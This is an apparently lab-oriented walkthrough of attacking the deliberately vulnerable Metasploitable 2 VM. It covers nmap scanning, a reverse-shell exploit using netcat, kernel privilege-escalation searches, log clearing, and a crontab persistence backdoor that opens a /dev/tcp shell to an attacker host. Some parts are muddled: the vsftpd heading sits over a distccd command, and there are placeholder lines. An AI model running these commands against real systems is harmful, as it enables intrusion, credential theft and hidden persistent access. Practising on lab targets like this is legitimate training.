 # Metasploitable 2

This document shows an hacking approach for Metasploitable 2, involving multiple phases such as reconnaissance, manual exploitation, privilege escalation, and post-exploitation.

## 1. Reconnaissance (Information Gathering)

### Active and Passive Scanning:

Use `nmap` to identify open ports, services, and OS details.

```
nmap -A -sV <target IP>
```

### Service Enumeration:

#### Port Scan Results

| Port     | State | Service     | Version                                             |
| -------- | ----- | ----------- | --------------------------------------------------- |
| 21/tcp   | open  | ftp         | vsftpd 2.3.4                                        |
| 22/tcp   | open  | ssh         | OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)        |
| 23/tcp   | open  | telnet      | Linux telnetd                                       |
| 25/tcp   | open  | smtp        | Postfix smtpd                                       |
| 53/tcp   | open  | domain      | ISC BIND 9.4.2                                      |
| 80/tcp   | open  | http        | Apache httpd 2.2.8 ((Ubuntu) DAV/2)                 |
| 111/tcp  | open  | rpcbind     | 2 (RPC #100000)                                     |
| 139/tcp  | open  | netbios-ssn | Samba smbd 3.X - 4.X (workgroup: WORKGROUP)         |
| 445/tcp  | open  | netbios-ssn | Samba smbd 3.X - 4.X (workgroup: WORKGROUP)         |
| 512/tcp  | open  | exec        | netkit-rsh rexecd                                   |
| 513/tcp  | open  | login       |                                                     |
| 514/tcp  | open  | shell       | Netkit rshd                                         |
| 1099/tcp | open  | java-rmi    | GNU Classpath grmiregistry                          |
| 1524/tcp | open  | bindshell   | Metasploitable root shell                           |
| 2049/tcp | open  | nfs         | 2-4 (RPC #100003)                                   |
| 2121/tcp | open  | ftp         | ProFTPD 1.3.1                                       |
| 3306/tcp | open  | mysql       | MySQL 5.0.51a-3ubuntu5                              |
| 3632/tcp | open  | distccd     | distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))    |
| 5432/tcp | open  | postgresql  | PostgreSQL DB 8.3.0 - 8.3.7                         |
| 5900/tcp | open  | vnc         | VNC (protocol 3.3)                                  |
| 6000/tcp | open  | X11         | (access denied)                                     |
| 6667/tcp | open  | irc         | UnrealIRCd (Admin email admin@Metasploitable.LAN)   |
| 6697/tcp | open  | irc         | UnrealIRCd (Admin email admin@Metasploitable.LAN)   |
| 8009/tcp | open  | ajp13       | Apache Jserv (Protocol v1.3)                        |
| 8180/tcp | open  | http        | Apache Tomcat/Coyote JSP engine 1.1                 |
| 8787/tcp | open  | drb         | Ruby DRb RMI (Ruby 1.8; path /usr/lib/ruby/1.8/drb) |

#### Service Info:

- **Host**: metasploitable.localdomain
- **OSs**: Unix, Linux

## 2. Vulnerability Assessment

For an exploit we used different sources in the internet.

For this example I attached the exploit in the exploit directory.

Normally you can search through the hacking db or similar like

- https://www.exploit-db.com/
- https://www.exploit-db.com/google-hacking-database/

## 3. Exploitation (Manual and Customized)

### vsftpd 2.3.4 Backdoor:

As a listener we use NetCat

nc -vnlp 4444

As the listener is active we execute the exploit and open the reverse shell.

Now we got 2 ways to exploit the Vulnerability, either with a python exploit or with a metasploit exploit.
Both exploits are downloadable in the exploits folder in this repository

```
python2 distccd.py -t 192.168.56.101 -c "nc 192.168.56.1 4444 -e /bin/sh"
```

now where we opened the listener we can send shell commands. with this command we change the shell to a bash shell

```
python -c 'import pty;pty.spawn("/bin/bash")'
```

## 4. Privilege Escalation

Once a low-privilege shell is obtained, we escalate privileges.

we do that with a kernel exploit. so we first check the release and kernel version with

```
uname -a
lsb_release -a
```

Here we see that the target has kernel 2.6.24 and is running Ubuntu 8.04

With the metasploit framework we can search through exploits and filter to our requirement.

```
searchsploit privilege | grep -i linux | grep -i kernel | grep 2.6
```

this
and
this
and
this

### SSH Pivoting Example:

```

ssh -L <local_port>:<target_IP>:<target_service_port> <user>@<compromised_host>

```

## 6. Post-Exploitation

### Dump Passwords:

Use tools like `hashdump` or `mimikatz` to retrieve stored passwords or hashes.

### Gather Sensitive Data:

Retrieve SSH keys, database files, and system credentials.

## 7. Covering Tracks

Securely delete sensitive files and logs to remove traces of the attack.

### Clear Logs:

- `/var/log/auth.log`
- `.bash_history`

Use `shred` or `dd` to securely delete files.

## 8. Persistence

To maintain access, plant a backdoor or create a new account.

### Add a Cron Job for Backdoor:

```

echo "_/5 _ \* \* \* /bin/bash -i >& /dev/tcp/<attacker IP>/4444 0>&1" >> /etc/crontab

```

## Conclusion

This methodology goes beyond simple Metasploit usage by manually exploiting vulnerabilities, escalating privileges, pivoting through networks, and ensuring persistence and stealth. Follow these steps to simulate a more complex attack on Metasploitable 2.

```

```
